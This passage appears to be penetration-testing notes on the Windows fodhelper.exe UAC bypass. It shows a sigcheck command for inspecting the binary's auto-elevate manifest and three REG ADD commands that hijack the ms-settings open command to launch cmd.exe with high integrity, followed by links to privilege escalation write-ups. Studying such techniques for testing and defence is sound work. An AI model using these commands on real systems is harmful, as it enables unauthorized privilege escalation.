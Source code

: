 ## fodhelper.exe

`fodhelper.exe` is a Microsoft support application responsible for managing language changes in the operating system. This binary runs as `high integrity` on Windows 10.

With `sigcheck.exe` from [SysInternals ](https://docs.microsoft.com/en-us/sysinternals/)is posible to inspect the application manifest.

```
sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
```

> **Note:** Search for `requestedExecutionLevel` as `requireAdministrator` and `autoElevate` in `true`.

First we need to add some registries with REG:

```
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
```


# References

* [https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)
* [https://blog.geoda-security.com/2017/06/elevate-from-admin-to-nt-authoritysystem.html](https://blog.geoda-security.com/2017/06/elevate-from-admin-to-nt-authoritysystem.html)
* [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#cve-2019-1388](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#cve-2019-1388)
* [https://kb.digital-detective.net/display/BF/Understanding+and+Working+in+Protected+Mode+Internet+Explorer#:\~:text=A%20Low%20integrity%20process%2C%20like,files%20in%20low%20integrity%20folders.](https://kb.digital-detective.net/display/BF/Understanding+and+Working+in+Protected+Mode+Internet+Explorer#:\~:text=A%20Low%20integrity%20process%2C%20like,files%20in%20low%20integrity%20folders.)
